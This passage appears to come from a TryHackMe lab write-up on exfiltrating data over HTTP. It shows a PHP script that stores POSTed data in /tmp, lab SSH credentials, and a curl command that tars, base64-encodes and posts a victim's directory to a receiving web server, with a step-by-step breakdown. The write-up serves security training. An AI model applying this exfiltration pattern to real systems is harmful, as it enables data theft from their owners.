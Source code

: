 As mentioned on step 1, we already have a web server with a data handler available. The PHP code of `contact.php` can be shown below:

```php
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```

The above PHP script will handle POST requests via the `file` parameter and store the received data in the `/tmp` directory as `http.bs64`.

1. Now, from the Jumpbox machine, we can connect via SSH to `victim1.thm.com`:

    ```shell
    ssh thm@victim1.thm.com
    # password: tryhackme
    ```

2. Our goal is to transfer the `/home/thm/task6`'s content from `victim1.thm.com` to the `web.thm.com` server:

    ```shell
    curl --data "file=$(tar zcf - task6 | base64)" http://web.thm.com/contact.php
    ```

    Let's break down the command:
    1. `curl` This is the command-line utility used to transfer data to or from a server using various supported protocols. In this case, we are using it for an **HTTP POST request**.
    2. `--data "file=$(tar zcf - task6 | base64)"` This part of the command specifies the data to be included in the HTTP POST request. It's using the `--data` option to send data. The data is enclosed in double quotes.
    3. `file=$(tar zcf - task6 | base64)` This is the data being sent in the POST request. It's a combination of several commands which we have used before. In brief, it creates a compressed tarball of the `task6` directory and `base64` encodes it, making it suitable for transmission in a POST request.
        - `$(...)` This is **command substitution**. It allows the output of the enclosed command sequence, in this case, the Base64-encoded tarball, to be used as a string within the `--data` parameter.
    4. `http://web.thm.com/contact.php` This part of the command specifies the URL to which the HTTP POST request will be sent. It's making a POST request to the `contact.php` script on the `web.thm.com` web server.

3. We can use the Jumpbox to log into `web.thm.com` and check if the data are located under `/tmp`:

    ```shell
    ls /tmp
    # http.bs64
    ```

    Although we have managed to transfer the data, if we take a closer look, it is broken base64: the `+` symbol got replaced with spaces.
